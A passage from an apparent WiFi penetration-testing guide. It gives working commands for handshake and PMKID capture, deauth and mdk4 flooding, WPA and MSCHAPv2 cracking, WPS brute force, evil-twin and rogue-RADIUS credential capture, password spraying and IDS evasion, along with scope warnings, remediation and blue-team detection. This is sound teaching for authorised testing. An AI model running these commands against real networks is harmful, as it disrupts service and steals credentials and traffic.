## Working on 5 GHz and the higher bands
<a id="five-ghz"></a>

Sensitive networks increasingly live on 5 GHz (and 6 GHz). The attacks are the same; what changes is the spectrum, the hardware, and one rule (DFS) that can quietly break your capture.



**Sweep the higher band.** airodump defaults to 2.4 GHz. Add `--band abg` to cover everything, or `--band a` for 5 GHz alone:

```bash
sudo airodump-ng wlan0mon --band a          # 5 GHz only
sudo airodump-ng wlan0mon --band abg        # 2.4 and 5 GHz together
```

**Hardware.** A 2.4 GHz-only adapter (AR9271) cannot see these networks. Use a dual-band chipset from the [adapter table](#recommended-adapters); the MT7612U (AWUS036ACM) is the clean in-kernel pick.

**DFS catches people out.** UNII-2/2e (channels 52 to 144) are shared with radar under Dynamic Frequency Selection:

- Many adapters will **not transmit** on DFS channels, and some capture poorly there. Empty capture on channel 100 is usually the adapter, not the attack.
- An AP must vacate a DFS channel for 30s if it thinks it hears radar, so a test can look failed when the AP just moved. Confirm the channel first.

**Channel width.** Pin airodump to the AP's **primary/control channel**, not a secondary one, or you sit on the wrong frequency and catch nothing.

**6 GHz (WiFi 6E/7).** OWE/WPA3 by design, Linux tooling still lags. Test your kit in a lab first, and do not claim 6 GHz coverage you could not perform.

The checklist for this band lives at [`checklists/five-ghz-assessment.md`](checklists/five-ghz-assessment.md).

## Lock onto one target
<a id="lock-onto-one-target"></a>

Pick the in-scope target, stop sweeping, and watch only it on its channel, writing to disk:

```bash
sudo airodump-ng --bssid 3C:84:6A:11:22:33 -c 11 --write capture wlan0mon
```

`--write capture` saves to `capture-01.cap`. Leave it running: this is what catches the handshake.

## Capture the handshake
<a id="capture-the-handshake"></a>

A WPA/WPA2 network only exposes its password (as a hash) during the four-way **handshake** when a client joins. Wait for one, or force it: deauth a connected client so it reconnects, and catch the handshake on the way back in.



The capture only needs the first two messages (the nonces and MIC). You never learn the password on the air, only the material to crack it offline.

With the targeted airodump still running in one terminal, in another I send a short, targeted deauth at one client:

```bash
sudo aireplay-ng --deauth 10 -a 3C:84:6A:11:22:33 -c 54:EF:44:AA:BB:CC wlan0mon
```

- `-a` the AP's BSSID
- `-c` the client to bump (leave it off to hit all clients, but targeting one is cleaner and quieter)
- `--deauth 10` send ten frames, then stop. This is a nudge to force a reconnect, not a flood.

<div align="center">
  
</div>

When the client reconnects, airodump catches the handshake and prints `WPA handshake: <BSSID>` in the top right (the green banner above). That is the whole job on site. The `.cap` file now holds the hash. Cracking happens offline, away from the target.

### PMKID (often no deauth needed)

Modern networks often leak a **PMKID** that you can grab from the AP directly, no client and no deauth required:

```bash
echo "3C846A112233" > target.txt
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1 --filterlist_ap=target.txt --filtermode=2
```

<div align="center">
  
</div>

## Deauth and denial of service
<a id="deauth-and-denial-of-service"></a>

Beyond capturing a handshake, these are the ways a hacker disrupts or disconnects people on a network. Each is **lab only** and covered below (and in [mdk4](#mdk4)).



The bounded deauth above is the capture step. The same frame, understood fully: a deauthentication frame tells a client it has been disconnected. Deauth frames are a normal, required part of 802.11, and before WPA3 they are unprotected, so any device that has seen the AP and client addresses can forge one.



Used in short, targeted bursts to force a reconnect, deauth is a legitimate capture step. Sent **continuously**, the same frame becomes a **denial-of-service attack**: it keeps a network or a client offline for as long as it runs.

> **Lab only, and here is why.** The commands below will knock real devices off a real network. Run them only against an AP **you own** or that is **explicitly in scope**, in a lab or an isolated test SSID. Sustained jamming is specifically illegal (see the [legal section](#legal-and-ethics)), and it is almost never in scope on a real engagement, because taking a client offline during business hours is exactly what they pay you not to do. The value of knowing these is the **detection** half in [how the blue team detects it](#how-the-blue-team-detects-it): you run it briefly in a lab to generate the signature, then prove the blue team can see it.

**Continuous deauth with aireplay-ng (freezing a lab client).** Drop the count to `0` and aireplay-ng sends until you stop it with Ctrl+C. Omit `-c` to hit every client on the AP.

```bash
sudo aireplay-ng --deauth 0 -a 3C:84:6A:11:22:33 wlan0mon          # all clients, until Ctrl+C
sudo aireplay-ng --deauth 0 -a 3C:84:6A:11:22:33 -c 54:EF:44:AA:BB:CC wlan0mon   # one client
```

Reference: the official [aireplay-ng documentation](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) covers every mode (deauth, fakeauth, arpreplay, test).

## When aireplay-ng is weak: mdk4
<a id="mdk4"></a>

If aireplay-ng injection is unreliable on your adapter, or you need to hit more than one target, **mdk4** is the heavier alternative. Where aireplay-ng injects specific single frames, mdk4 is the all-round 802.11 stress tool: successor to mdk3, ships in Kali, ten attack modes. It needs a card already in [monitor mode](#monitor-mode).

<div align="center">
  
</div>

**aireplay-ng vs mdk4, when to use which:**

| | `aireplay-ng` | `mdk4` |
| --- | --- | --- |
| Design | Precise, single-frame injection | Broad, high-volume stress tool |
| Deauth | Targeted, bounded (`--deauth 10`) to capture a handshake | Flood mode (`d`), sustained, from a list |
| Breadth | Deauth, fakeauth, arpreplay, injection test | Ten modes: beacon flood, auth DoS, probe, deauth, EAPOL, TKIP, mesh, WIDS confusion, fuzzer, PoC |
| Typical use | The capture step (reconnect nudge), WEP replay | Generating a loud signature to prove the blue team can detect it |
| Blast radius | Low when scoped to one client | High: easy to disrupt more than you intended |
| Defeated by PMF | Yes (forged deauth ignored) | Yes for the management-frame modes (`a`, `d`, `e`) |

> **Lab only.** Every command here disrupts a real network. Run them only against an AP you own or that is explicitly in scope, briefly, to generate a signature you then detect. See the [lab-only warning above](#deauth-and-denial-of-service) and the [legal section](#legal-and-ethics).

```bash
mdk4 --fullhelp                           # list every mode and option
mdk4 --help d                             # help for one mode (here, deauth)
```

### Deauth with mdk4 (mode d)

Mode `d` sends deauth and disassociation frames based on the data traffic it sees.

```bash
# Deauth EVERY client/AP it sees on a channel (channel 1 here)
sudo mdk4 wlan0mon d -c 1

# Deauth ONLY specific APs: list their BSSIDs in a file, one per line
echo 3C:84:6A:11:22:33 > targets.txt
sudo mdk4 wlan0mon d -b targets.txt -c 1

# Whitelist: deauth everyone EXCEPT the clients/APs you list (protect known-good)
sudo mdk4 wlan0mon d -w allowlist.txt -c 1
```

For a **single specific client**, mdk4's mode `d` works at AP/channel scope, so the surgical tool is still aireplay-ng with `-c`:

```bash
sudo aireplay-ng --deauth 0 -a 3C:84:6A:11:22:33 -c 54:EF:44:AA:BB:CC wlan0mon
```

### Beacon flood with mdk4 (mode b)

Mode `b` spams fake APs. It fills every scanner and floods a Wireshark capture with junk beacons.

```bash
# Random fake SSIDs (no name given = randomly generated)
sudo mdk4 wlan0mon b

# Fake SSIDs from a wordlist / file (one name per line)
sudo mdk4 wlan0mon b -f ssids.txt

# One specific fake SSID
sudo mdk4 wlan0mon b -n FakeCorp

# Add -s to cap the rate, for a controlled, readable lab signature
sudo mdk4 wlan0mon b -f ssids.txt -s 100
```

### Freeze a network with mdk4

```bash
# Authentication DoS (mode a): flood an AP with fake auths until its
# client table is exhausted and it freezes or resets
sudo mdk4 wlan0mon a -a 3C:84:6A:11:22:33

# Michael shutdown (mode m): LEGACY TKIP APs only. Provokes the Michael
# countermeasure so the AP shuts down for ~60 seconds
sudo mdk4 wlan0mon m -t 3C:84:6A:11:22:33
```

### Why beacon flood "confuses Wireshark"

A beacon flood makes a scanner show hundreds of APs that do not exist, and a live capture fills with thousands of beacon frames a second. To cut back to real traffic while studying a flood, filter beacons in Wireshark:

```
wlan.fc.type_subtype == 0x08       # show only beacons (study the flood)
!(wlan.fc.type_subtype == 0x08)    # hide beacons (keep reading real traffic)
```

### All ten modes, and what each one looks like to a defender

| Mode | Attack | What a defender sees |
| --- | --- | --- |
| `b` | Beacon flooding | Dozens/hundreds of new SSIDs appear at once |
| `a` | Authentication DoS | Flood of auth frames (subtype `0x0b`); AP may freeze/reset |
| `p` | SSID probe / bruteforce | Burst of probe requests for one BSSID |
| `d` | Deauth / disassociation | Deauth (12) / disassoc (10) storm, clients flapping |
| `m` | Michael (TKIP) shutdown | TKIP AP shuts down ~60s (legacy networks only) |
| `e` | EAPOL start/logoff flood | Flood of EAPOL-Start frames |
| `s` | 802.11s mesh attacks | Abnormal mesh link-management traffic |
| `w` | WIDS confusion | Contradictory association state across APs |
| `f` | Packet fuzzer | Malformed / non-compliant frames |
| `x` | Protocol-implementation PoC | Odd frames; target may crash or disconnect |

A few notes that matter on a real test:

- **`m` (Michael)** only bites legacy **TKIP** networks; modern WPA2-CCMP/WPA3 are immune, which is itself a finding ("you are still on TKIP").
- **`w` (WIDS confusion)** deliberately feeds a wireless IDS contradictory data to see if it can be blinded, so it is useful specifically for exercising the blue team.
- **`f` (fuzzer)** and **`x` (protocol PoC)** can crash drivers or firmware; report any device that crashes, that is a vendor bug.

**IDS evasion.** mdk4 can append `--ghost <period,max_rate,min_txpower>` (switch rate/power periodically) and `--frag <min,max,percent>` (fragment outgoing frames) to dodge some signature-based IDS. They are driver-dependent and unreliable. The lesson for a defender: signature evasion is possible, so lean on **behavioural** detection (clients flapping, association-table churn, EAPOL rate) and on **802.11w / PMF**, which ignores the forged-management-frame modes (`a`, `d`, `e`) no matter how they are dressed up.

A deauth or beacon flood is loud and obvious, and a blue team should catch it instantly. That is covered in [how the blue team detects it](#how-the-blue-team-detects-it). With a handshake captured, the next step is to crack it offline.

## Crack it
<a id="crack-it"></a>

Cracking is offline and is just guessing the password against the captured hash. You never touch the network for this part.

### aircrack-ng (quick CPU test)

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

Fast to try, fine for weak passwords, slow for anything serious.

### Hashcat (GPU, the real workhorse)

Convert the capture to the modern 22000 format first:

```bash
hcxpcapngtool -o hash.22000 capture.pcapng
```

Then crack. Mode 22000 covers both PMKID and EAPOL:

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt --status --status-timer=10
```

Add rules to stretch a wordlist (this is where real cracks come from):

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

<div align="center">
  
</div>

> Note: the older `hcxpcaptool` and hashcat mode `16800` are legacy. Modern Kali uses `hcxpcapngtool` and mode `22000`.

### John the Ripper

```bash
hashcat --example-hashes | grep -i wpa   # or convert with hcxpcapngtool, then:
john --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk-opencl hash.22000
```

### When the wordlist fails

A generic list rarely beats a password someone actually chose. Build a targeted one with **cewl** (scrape the company website for words), **cupp** (profile a person), or **crunch** (generate patterns), then run Hashcat again. On real engagements this step, not the attack, is what decides success.

## WPS attacks
<a id="wps-attacks"></a>

WPS (WiFi Protected Setup) is an eight-digit PIN feature that can be brute forced. Find APs with WPS on, then brute an unlocked one with **reaver** or **bully**:

```bash
sudo wash -i wlan0mon                                          # find WPS APs
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -vv               # brute the PIN
sudo bully  wlan0mon -b 00:11:22:33:44:55 -e TargetESSID -c 11 # alternative
```

<div align="center">
  
</div>

Only `WPS Locked: No` APs are worth it. The lesson for the report: if WPS is on, passphrase length barely matters. Turning WPS off is one of the highest-value fixes.

## The evil twin
<a id="the-evil-twin"></a>

A fake copy of a real network. It answers one defensive question: **will staff devices silently trust a lookalike AP, and what leaks if they do?** The write-up is really the argument for a VPN and 802.1X / certificate-pinned WiFi.



The whole test turns on that middle arrow: a client that will associate with any AP shouting the right ESSID. On a real engagement this is run with a clearly labelled lab SSID and test devices, never a production corporate SSID staff would join by reflex.

Stand up the lookalike AP with airbase-ng:

```bash
sudo airbase-ng -a AA:BB:CC:DD:EE:FF --essid TargetESSID -c 6 wlan0mon
```

It creates a tap interface `at0`. Bridge it to your internet-facing interface so clients get real connectivity through you, and run DHCP so they get an address:

```bash
sudo ip link add name br0 type bridge
sudo ip link set br0 up
sudo ip link set eth0 master br0
sudo ip link set at0 master br0
sudo dhclient br0 &
```

A bounded deauth nudges clients off the real AP so they hop to yours:

```bash
sudo aireplay-ng --deauth 100 -a AA:BB:CC:DD:EE:FF wlan0mon
```

Now open Wireshark on `br0`. Any cleartext HTTP or unauthenticated protocol from a reconnected client is visible, and "Follow Stream" reconstructs the session. That single screenshot in a report, a staff login over plain HTTP through a rogue AP, does more to get HTTPS and a VPN mandated than any paragraph.

## Automate it
<a id="automate-it"></a>

Once you understand the manual flow, automate the boring parts. Two tools do the whole chain.

**wifite** picks targets, captures handshakes and PMKIDs, and can hand off to cracking:

```bash
sudo wifite --kill
```

It lists targets, you pick a number, and it runs capture and deauth for you.

**airgeddon** is a menu-driven wrapper over the whole suite (monitor mode, scanning, handshake, evil twin, cracking):

```bash
sudo airgeddon
```

Use these to move fast, but only after you can do it by hand. An automated tool that you cannot debug is useless the moment it misbehaves on a real network.

## Fake authentication and ARP replay (WEP)
<a id="fake-auth"></a>

Fake authentication and ARP replay are classic **WEP** steps. WEP is obsolete and you will rarely meet it outside a lab or old hardware, but it is the cleanest way to understand injection, and `--fakeauth` is also how you associate with an AP that has no clients so you can inject. Official reference: [aireplay-ng documentation](https://www.aircrack-ng.org/doku.php?id=aireplay-ng).

Lock onto the target, then fake-authenticate so the AP accepts your injected frames:

```bash
sudo airodump-ng wlan0mon --bssid <router-mac> -c <channel> --write capture
sudo aireplay-ng --fakeauth 0 -a <router-mac> -h <your-mac> wlan0mon
```

- `--fakeauth 0` single association (use e.g. `30` to re-associate every 30s if the AP drops you)
- `-h` your card's MAC, which you can confirm with `macchanger -s wlan0mon` or `ip addr`

A success prints `Association successful :-)`. Now replay an ARP packet to make the AP generate IVs fast, which is what cracks WEP:

```bash
sudo aireplay-ng --arpreplay -b <router-mac> -h <your-mac> wlan0mon
aircrack-ng capture-01.cap          # with enough IVs, WEP falls in minutes
```

The lesson for any report: if WEP is running anywhere, replace it now. For WPA/WPA2 do not use this path; capture the handshake or PMKID and crack offline as [above](#capture-the-handshake).

## WPA2-Enterprise / 802.1X testing
<a id="wpa2-enterprise"></a>

**WPA2-Enterprise** authenticates each user against a **RADIUS** server over **802.1X / EAP** (PEAP or EAP-TTLS with a password, or EAP-TLS with a client cert). No shared password to crack, so the weakness is different.



**The flaw to test for:** whether clients **validate the RADIUS server certificate**. If not, a fake AP plus a fake RADIUS server makes the client authenticate *to the attacker*, leaking its username and an MSCHAPv2 challenge/response that cracks offline. Nearly every Enterprise finding traces back to this.

> **Most sensitive step on the engagement.** Impersonation captures real staff credentials. Get it named explicitly in the rules-of-engagement, store captures encrypted, and destroy them after reporting.

### Workflow, with the purpose and tool for each step

1. **Confirm it is 802.1X and find the EAP method** (so you know if it is phishable). In airodump the `AUTH` column reads **MGT** for Enterprise.
   ```bash
   sudo airodump-ng wlan0mon --band abg       # confirm WPA2 MGT, note BSSID/channel
   sudo crEAP -i wlan0mon                      # passively identify EAP types and usernames
   sudo eapeak -f capture.pcap                 # parse a capture for EAP methods/identities
   ```
2. **Harvest usernames** (targeting, and to show which identities leak). `crEAP`/`eapeak` pull the outer identities, often sent in the clear.
3. **Impersonate the RADIUS server** (the core test). A client that does not validate the cert connects and leaks its MSCHAPv2 challenge/response.
   ```bash
   sudo ./eaphammer --cert-wizard                                   # one-time: build the fake cert
   sudo ./eaphammer -i wlan0 --channel 6 --auth wpa-eap \
        --essid CorpWiFi --creds                                    # rogue AP + RADIUS, capture creds
   sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf               # classic alternative
   ```
   **If no client connects, that is a PASS:** cert validation is enforced. Record it as such.
4. **Crack the captured MSCHAPv2** offline (prove the password is recoverable).
   ```bash
   asleap -C <challenge> -R <response> -W /usr/share/wordlists/rockyou.txt
   hashcat -m 5500 captured.hash /usr/share/wordlists/rockyou.txt
   ```
5. **Password spray** within scope (test policy and lockout; keep attempts low so real staff are not locked out).
   ```bash
   sudo python3 air-hammer.py -i wlan0 -e CorpWiFi -u users.txt -p 'Winter2026!'
   ```
6. **EAP-TLS environments** (client certs): impersonation will not harvest passwords, so pivot to the certificate issuance/revocation process, whether private keys are exportable, device-vs-user cert scoping, and whether a stolen device grants access. This is an endpoint and process review.

### Fixes to recommend
- **Enforce server-certificate validation on every client** (validate CN/SAN, pin the internal CA). This one setting defeats the impersonation attack.
- **Prefer EAP-TLS** (mutual certs) over PEAP/TTLS-MSCHAPv2 where feasible.
- **Use a dedicated private CA** for RADIUS so clients can pin it, never a public one.
- **Enforce lockout and a strong password policy** at the identity layer, plus [802.11w/PMF and segmentation](#hardening-and-defence).

### Professional checklist

```
WPA2-ENTERPRISE / 802.1X TEST CHECKLIST
[ ] Written authorisation and scope signed (SSID, realm, window, creds handling)
[ ] Target confirmed as 802.1X (airodump AUTH = MGT)
[ ] EAP method identified (PEAP / EAP-TTLS / EAP-TLS / EAP-FAST)
[ ] Outer-identity usernames harvested (crEAP / eapeak)
[ ] Rogue AP + fake RADIUS stood up (eaphammer / hostapd-wpe)
[ ] Client cert-validation behaviour recorded (connected = FAIL, refused = PASS)
[ ] MSCHAPv2 challenge/response captured (if any client connected)
[ ] Offline crack attempted (asleap / hashcat -m 5500)
[ ] Password spray tested within scope, lockout behaviour noted (air-hammer)
[ ] EAP-TLS cert process reviewed (if applicable)
[ ] IDS / RADIUS-log detection validated with the blue team
[ ] All captured credentials stored encrypted and scheduled for destruction
[ ] Findings, evidence, and remediation written up
```

### Reporting format

One block per finding, factual and tied to a fix.

```
FINDING:   <short title, e.g. "Clients do not validate RADIUS server certificate">
SEVERITY:  Critical / High / Medium / Low / Informational
AFFECTED:  <SSID, client platforms, user groups observed>
DESCRIPTION: <the weakness in plain language>
EVIDENCE:  <redacted proof: username with password masked, rogue-AP log, timestamps>
IMPACT:    <what an attacker gains, e.g. domain creds that also grant VPN + email>
LIKELIHOOD: <how easy/likely, e.g. trivial: a laptop and a $30 adapter in the car park>
REMEDIATION: <specific, e.g. GPO/MDM enforcing cert validation against CN radius.corp.local>
STATUS:    Open
```

**Severity guidance:** Critical = creds captured and cracked, no cert validation. High = validation off but crack not finished in the window, or weak policy with no lockout. Medium = usernames leak, PEAP-MSCHAPv2 but validation enforced. Informational = EAP-TLS enforced correctly (document good posture too).

## How the blue team detects it
<a id="how-the-blue-team-detects-it"></a>

This is the part a company actually pays for: did anyone see it?

Deauth frames are 802.11 management frames with subtype `0x0c` (12). You can watch for them live:

```bash
sudo tshark -i wlan0mon -Y "wlan.fc.type_subtype == 12" -T fields -e frame.time -e wlan.sa -e wlan.da
```

<div align="center">
